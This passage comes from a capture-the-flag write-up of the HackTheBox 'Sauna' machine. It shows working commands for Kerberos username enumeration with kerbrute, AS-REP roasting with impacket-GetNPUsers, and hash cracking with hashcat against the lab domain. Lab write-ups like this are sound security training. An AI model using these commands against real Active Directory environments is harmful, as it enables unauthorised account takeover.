 We create a wordlist of possible usernames:

```
hugosmith
hugo.smith
hsmith
h.smith
hugo.s
```

Validate with Kerbrute:

```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 users.txt 
```

![kerbrute_users](GitHubv2/HackTheBox/EASY/Sauna/screenshots/kerbrute_users.png)

The user **hsmith** is valid.

---
## 3. Foothold via AS-REP Roasting

### 3.1 Web Enumeration for More Users

Browsing the web service, we find more usernames in the **About Us** section:

![web_team](GitHubv2/HackTheBox/EASY/Sauna/screenshots/web_team.png)

Update the `users.txt` list and rerun Kerbrute:

![kerbrute_users_updated](GitHubv2/HackTheBox/EASY/Sauna/screenshots/kerbrute_users_updated.png)

We confirm the existence of **fsmith**.

---
### 3.2 Extracting AS-REP Hash

Using Impacket:

```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users -dc-ip 10.10.10.175
```

![getnpusers_users](GitHubv2/HackTheBox/EASY/Sauna/screenshots/getnpusers_users.png)

We obtain an AS-REP hash for `fsmith`.

---
### 3.3 Cracking the Hash

Using Hashcat mode `18200` (Kerberos 5 AS-REP):

```bash
hashcat -m 18200 -a 0 hash_fsmith /usr/share/wordlists/rockyou.txt 
```
